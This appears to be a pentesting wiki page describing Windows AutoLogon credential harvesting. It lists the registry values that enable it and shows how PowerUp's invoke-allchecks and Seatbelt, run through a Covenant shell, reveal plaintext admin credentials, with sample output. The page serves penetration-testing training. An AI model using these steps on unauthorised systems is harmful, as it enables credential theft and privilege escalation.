 # AutoLogon

## Target requirements

- The target need to have those values in the registry in `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WinLogon`
  - AutoAdminLogon set to 1
  - DefaultDomainName with a valid domain set
  - DefaultUserName with a valid admin username
  - DefaultPassword with a valid admin pass  

This basically means that the target when restarted will logon automatically without prompting for username and password.

## Exploitation

- You should have a shell with covenant or metasploit or netcat.  
We will use Covenant here.

### Covenant with PowerUp

- In the shell we will type PowerShellImport, type enter and fetch PoweUp.ps1 (if you do not have it you can get it [here](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1) )  
- Click on execute
- type `powershell invoke-allchecks` in your shell
- Once the command executed it will do all sorts of check and we should see something like this:
```
[*] Checking for Autologon credentials in registry...

DefaultDomainName    : domain
DefaultUserName      : f.lastanme
DefaultPassword      : password
AltDefaultDomainName : 
AltDefaultUserName   : 
AltDefaultPassword   : 

```

### Covenant with Seatbelt

- Check for it with `Seatbelt WindowsAutoLogon`

```
====== WindowsAutoLogon ======

  DefaultDomainName              : domain
  DefaultUserName                : f.lastanme
  DefaultPassword                : password
  AltDefaultDomainName           : 
  AltDefaultUserName             : 
  AltDefaultPassword             : 
```

## Resources

{% embed url="https://academy.tcm-sec.com/p/movement-pivoting-and-persistence-for-pentesters-and-ethical-hackers" %} TCM security Academy -  Movement pivoting and persistence for pentesters and ethical hacker {% endembed %}
